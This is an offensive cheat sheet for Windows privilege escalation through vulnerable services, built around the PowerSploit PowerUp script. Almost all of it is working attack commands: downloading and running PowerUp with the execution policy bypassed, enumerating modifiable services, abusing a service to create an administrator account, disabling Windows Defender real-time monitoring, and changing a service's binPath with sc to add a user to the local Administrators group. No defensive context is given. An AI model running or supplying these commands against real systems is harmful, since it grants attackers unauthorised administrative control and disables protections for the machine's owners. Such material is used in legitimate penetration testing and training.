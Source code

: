 Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`

# Enumeration

```
Invoke-AllChecks
Get-ModifiableService
```

# Abuse

Add new user

```
Invoke-ServiceAbuse -Name 'vulnerableservice' -User hacker -Password Password1337
Invoke-ServiceAbuse -Name 'vulnerableservice' -Command "net localgroup Administrators hacker /add"
```

Disable defender

```
Invoke-ServiceAbuse -Name 'vulnerableservice' -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
```

# Manual

```
sc config "vulnerableservice" binPath="cmd.exe /c net localgroup administrators user/add"
sc stop "vulnerableservice"
sc start "vulnerableservice"
```
